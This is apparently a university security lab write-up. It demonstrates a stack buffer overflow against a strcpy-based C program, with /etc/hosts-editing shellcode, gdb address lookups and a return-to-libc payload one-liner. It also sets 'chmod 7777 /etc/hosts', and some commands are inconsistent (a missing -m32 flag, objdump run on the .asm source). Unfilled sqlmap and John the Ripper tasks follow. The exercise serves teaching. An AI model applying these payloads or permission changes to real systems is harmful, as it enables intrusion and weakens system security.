







# LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**


Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

**Get shell code of run_file.asm by this command**
```
for i in $(objdump -d run_file.asm |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```



We can use return-to-libc to solve the problem

Đặt biến môi trường 

```
export MYBUF="/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

```


Xem lại biến môi trường bằng câu lệnh

```
env | grep MYBUF
```

Connect gdb to find the address of system, exit and the value "/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

After run the program by in gdb:

```r``` 

find the address by this command step by step
```
p system
p exit
find /home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file
```



system: 0xf7e50db0
exit: 0xf7e449e0
/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file: 0xffffd933


Stackframe 



Using the stack frame, we can calculate the payload to write:

`padding (20 bytes) + address of system + address of exit + address of MYBUF’s value (/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file)`

this command must to be: 

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

exit gdb and connecting again

Run program by the command:

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```
Check /etc/hosts folder by:
```
sudo cat /etc/hosts
```


Why isn’t Google.com’s address listed here?


We need to configure permissions for the `/etc/hosts file.`

Set permissions by the command:
```
sudo chmod 7777 /etc/hosts
```
- sudo: Runs the command as superuser (root).
- chmod 7777: Gives read, write, execute permissions to everyone, plus SUID, SGID, and sticky bit.
- /etc/hosts: A critical system file that maps hostnames to IP addresses.

Connect gdb and run program again:


Check folder /etc/hosts again



Successfully!


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
